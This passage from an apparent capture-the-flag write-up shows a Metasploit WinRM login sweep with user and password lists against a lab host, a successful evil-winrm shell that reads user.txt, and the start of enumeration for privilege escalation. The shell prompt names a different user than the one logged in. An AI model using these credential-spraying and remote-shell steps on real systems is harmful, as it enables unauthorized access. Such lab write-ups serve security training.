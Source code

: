 Now that we have a couple of users, we can use the Metasploit module `auxiliary/scanner/winrm/winrm_login` to check if one of these users with the cracked passwords is allowed to login.

```ruby
msf5 > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.179
msf5 auxiliary(scanner/winrm/winrm_login) > set DOMAIN MEGACORP
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE pws.txt
msf5 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\tushikikatomo:password1 (Incorrect: )
[+] 10.10.10.179:5985 - Login Successful: MEGACORP\tushikikatomo:finance1
```

The user `tushikikatomo` is allowed to login with the password `finance1` and we can read user.txt.

```powershell
root@darkness:~# evil-winrm -i 10.10.10.179 -u 'MEGACORP\tushikikatomo' -p finance1

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents> cd ../Desktop; type user.txt
8d69a***************************
```

## Privesc to Root

Now that we have the initial shell and got user.txt let us enumerate the system to escalate to root.

### Privesc Initial - Cyork

In order to get root, we have to do a lot of lateral moving, beginning with the escalation from our initial shell to the user Cyork.

#### Enumeration as tushikikatomo

We can check out local running processes using the `Get-Process` PowerShell command.

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    277      52    45044      55368              1008   1 Code             
    404      54    95544      81980              2584   1 Code     
    408      53    93496      71160              2732   1 Code
    276      51    58256      25940              3448   1 Code
    407      56   136484     168760              3468   1 Code
    706      56    34396      92376              3904   1 Code
    429      23    15844      10188              4392   1 Code
    276      51    58208      40488              4732   1 Code
    278      51    58212      74448              5792   1 Code
    234      15     6160       4224              6192   1 Code
    407      54    96028     119416              6196   1 Code
    324      30    41080      31332              6452   1 Code
    278      51    57960      74716              6800   1 Code
    407      54    96252     135592              7016   1 Code
[...]
```

